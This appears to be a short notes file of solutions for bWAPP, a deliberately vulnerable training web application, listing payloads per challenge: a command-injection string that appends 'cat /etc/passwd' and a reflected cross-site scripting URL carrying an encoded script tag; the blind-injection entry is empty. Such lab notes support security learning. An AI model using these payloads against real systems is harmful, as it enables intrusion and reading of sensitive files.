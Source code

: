 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
$
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
http://example.com/bWAPP/xss_get.php?firstname=Hacker&lastname=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&form=submit
```

